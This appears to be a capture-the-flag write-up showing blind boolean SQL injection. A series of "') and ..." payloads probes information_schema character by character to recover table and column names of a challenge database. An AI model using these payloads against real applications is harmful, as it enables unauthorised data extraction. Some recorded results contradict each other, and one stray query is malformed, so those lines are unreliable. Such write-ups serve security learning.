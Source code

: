 #### Guess the name of the tables

Attempts:

```
') and (select count(table_name) from information_schema.tables where table_schema=database())=2 # => true

guess the length of the first table name
') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 2 # => false
') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 4 # => true
=> the length of the first table name is 4

Similar approach
') and length((select table_name from information_schema.tables where table_schema=database() limit 1,1)) = 14 # => true
=> the length of the second table name is 14

') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 97 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 100 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 110 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 120 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 115 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 114 # => true
=> the first character is chr(115) = 's'

Similar approach => the first table is called 'sql3', and the second table is called 'sql3-truepower'
```

#### Guess the column name of table sql3-truepower

Attempts:

```
') and (select count(column_name) from information_schema.columns where table_name='sql3-truepower')=1 # => true

guess the name of the column
') and length((select column_name from information_schema.columns where table_name= ’users’ limit 0,1)))=1

') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 4 # => true
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 14 # => true
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 20 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 18 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) < 17 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) = 18 # => true
```
